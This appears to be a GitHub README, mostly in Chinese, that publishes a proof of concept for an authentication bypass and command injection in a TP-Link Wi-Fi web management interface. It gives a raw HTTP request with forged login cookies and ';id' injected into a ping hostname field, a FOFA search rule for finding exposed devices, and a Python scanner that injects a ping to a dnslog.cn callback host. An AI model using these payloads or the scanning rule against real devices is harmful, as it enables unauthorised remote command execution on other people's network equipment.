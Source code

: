 # tp-link_wifi_rce
TP-link WIFI web管理认证绕过+命令执行漏洞



TP-link WIFI web管理命令执行



poc：

`POST /cgi-bin/jumpto.php?class=diagnosis&page=config_save&isphp=1 HTTP/1.1`

`Host: ip`

`User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64; rv:22.0) Gecko/20100101 Firefox/22.0`

`Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8`

`Accept-Language: zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3`

`Accept-Encoding: gzip, deflate`

`Cookie: cooLogin=1; cooUser=1`

`Connection: close`

`Content-Type: application/x-www-form-urlencoded`

`Content-Length: 42`

`call_function=ping&iface=eth0&hostname=;id`

![image](https://user-images.githubusercontent.com/42840611/130399378-1f74cd39-dc16-40ba-83ef-0f28a86257ed.png)


fofa规则：

title="Wi-Fi Web管理"





漏洞检测脚本：

`#!/usr/bin/python`
`#-*- coding:utf-8 -*-`

`import click`
`import requests`


`def title():`
    `print('+------------------------------------------')`
    `print('+  作者：quanpangshu                       ')`
    `print('+  漏洞名称：TP-Link WIFI WEB管理命令执行漏洞')`
    `print('+  使用格式:  python3 poc.py   --help       ')`
    `print('+------------------------------------------')`


`def scan(host):`
    `url = str(host)+"/cgi-bin/jumpto.php?class=diagnosis&page=config_save&isphp=1"`
    `headers = {`
        `"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0",`
        `"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",`
        `"Accept-Language": "zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3",`
        `"Accept-Encoding": "gzip, deflate",`
        `"Content-Type": "application/x-www-form-urlencoded",`
        `"Cookie": "cooLogin=1; cooUser=1"`
    `}`
    `payload = "call_function=ping&iface=eth0&hostname= %3bping 5dsdj4.dnslog.cn"`

    try:
        rep = requests.post(url=url, headers=headers, data=payload, timeout=70, verify=False)
    except:
        print("漏洞不存在")
    if rep.status_code == 502:
        print("漏洞存在！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！请前往dnslog平台再次确认")
    else:
        print("漏洞不存在")

`@click.command()`
`@click.option("-h", "--host", help='Target URL; Example:http://ip:port。')`
`def main(host):`
    `title()`
    `scan(host)`

`if __name__ == '__main__':`
    `main()`







![image](https://user-images.githubusercontent.com/42840611/130399299-7c90b71e-c3ca-4f24-8cdb-0b6acbe7f0ff.png)


